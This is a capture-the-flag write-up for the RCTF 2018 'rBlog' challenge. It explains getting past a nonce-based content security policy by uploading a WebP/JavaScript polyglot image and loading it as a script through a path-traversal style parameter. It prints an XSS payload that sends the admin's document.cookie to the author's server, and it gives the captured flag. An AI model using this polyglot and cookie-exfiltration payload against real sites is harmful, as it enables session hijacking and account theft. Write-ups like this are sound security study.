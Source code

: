 # rBlog 2018

> https://ctftime.org/writeup/10122

Unfortunately I failed to solve this challenge during the contest, but I saw other writeups and no one solved it this way.

In my solution the only important CSP rule is `script-src 'nonce-{nonce}'`, I found HTML injection in blog title, but unfortunately I didn't know how to exploit it.

However we could provide our own image. Moreover we can choose the style for our post, but the server doesn't check if the style is valid and we can send any path of our choice (including our uploaded image). This style is later used as script src with correct nonce! 

If we could find image extension which will be accepted by the server and won't cause Apache to send `Content-Type` header, we can execute arbitrary JS code. Unfortunately here I failed. I tried to upload many file types (including the correct one - webp) but none of them worked.

After the CTF it appeared that I just couldn't use animated .webp file (server response was blank in such case), so I decided to finish this challenge this time with normal webp file. With help of [`imagemin-webp`](https://www.npmjs.com/package/imagemin-webp)  package for Node.JS I created simple webp file (1 black pixel) and the server accepted it. 

To make this file valid JS I needed to put `/*` just after `RIFF`. The field after the header is file length (-8 because of the header), so I had to pad my correct webp file with a lot of "A"s so the total file size will be 10807 and it apperead that it works! After the image data i can put anything as long as file length is correct. So I replaced some first "A"s with 
```js
*/=1;window.location.href="http://[mydomain]/rblog.php?cookie="+document.cookie;/*
``` 
and also put `*/` at the end.

Now the challenge became easy. First we have to create blog post with our image. Then create another blog post, this time we don't need any image, but we must send
`../../../upload/images/{filename}.webp#` as the style path. Visiting the second blog post redirects us successfully to our server, so the last thing we need to do is to report this blog post, wait a few seconds so the admin visits the page and we're done.

Response
```
/rblog.php?cookie=flag=RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012};%20hint_for_rBlog_Rev.2=http://rblog.2018.teamrois.cn/blog.php/52c533a30d8129ee4915191c57965ef4c7718e6d
```

So the flag is: `RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012}`